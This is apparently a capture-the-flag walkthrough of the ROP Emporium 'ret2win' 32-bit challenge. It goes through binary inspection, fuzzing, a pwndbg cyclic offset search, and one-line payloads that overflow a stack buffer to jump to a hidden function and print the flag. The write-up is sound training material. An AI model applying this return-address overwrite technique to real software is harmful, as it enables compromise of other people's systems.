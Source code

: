 # ret2win

This is a simple challenge from ropemporium.com. The objective is to divert the process flow to execute a specific function within the binary to return to.

I will be doing this one with the 32 bit version of the challenge.

## First moves
We can start by examining the file.
We ran two commands that will reveal interesting information to us.

`file`
```bash
└─$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped
```

`checksec`

```bash
[*] '/home/kali/my_challenges/pwn/ropemporium/ret2win/ret2win32'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

Most of the protections are disabled except for stack execution. We also see that the binary is 32 bit and is little-endian.

Finally, we will execute the program and observe what it does.
```bash
└─$ ./ret2win32
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

```

Since this is the first challenge, it seems to be already leaking all the info we possibly need haha.

## Attack plan
1. Manually fuzz the program
2. Examine the program dynamically using GDB

### Details
We will start by executing the program again and trying to crash it to gauge how much data we need to input to corrupt the stack.
The program already revealed to us that the buffer its reading the input to is 32 bytes. If we enter exactly 32 bytes:
```bash
└─$ ./ret2win32
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you!

Exiting

```
Ok, it seems to have handled it well. Let's try now to overflow it. It seems to suggest 56 bytes, that's probably the offset to the return value on the stack. Let's try:
```bash
└─$ ./ret2win32
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you!
zsh: segmentation fault (core dumped)  ./ret2win32
```
Yup, it crashed.
We can also confirm this by checking what library functions the binary is calling and looking at their input using `ltrace`.

We will skip static analysis with Ghidra and immediately move to dynamic analysis with GDB.

### Dynamic analysis
Using gdb, we can see three functions of interest in the process
```bash
0x08048546  main
0x080485ad  pwnme
0x0804862c  ret2win
```

Cool, looking at the assembly code of these three functions using GDB, we come to the realization that main calls pwnme and ret2win is never called. ret2win is the function we want to divert the execution to. This will happen when the process tries to return from pwnme to main.

We already know more or less the offset to the return pointer. But we can also double check again by running the program in gdb and using a cyclic pattern to calculate the offset to the return address from the buffer start address.

By crashing the program and checking the EIP for the value that got assigned post return from pwnme we get:
```bash
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

Seems like the start of the return pointer is exactly after 44 bytes. This is enough for us to write an exploit as follows:
```bash
echo -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x2c\x86\x04\x08" > payload
```
or in python2 if you have it handy:
```bash
python2 -c 'print "a"*44 + "\x2c\x86\x04\x08"' > payload
```

Note that we wrote the return address to ret2win in reverse because the binary is in little-endian mode (i.e, the least significant bits are stored in higher memory values)!

Executing the binary with the payload we get:
```bash
└─$ ./ret2win32 < payload
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
zsh: segmentation fault (core dumped)  ./ret2win32 < payload
```

Success!

PS: You can find all the commands ran in GDB in the file .gdb_history.

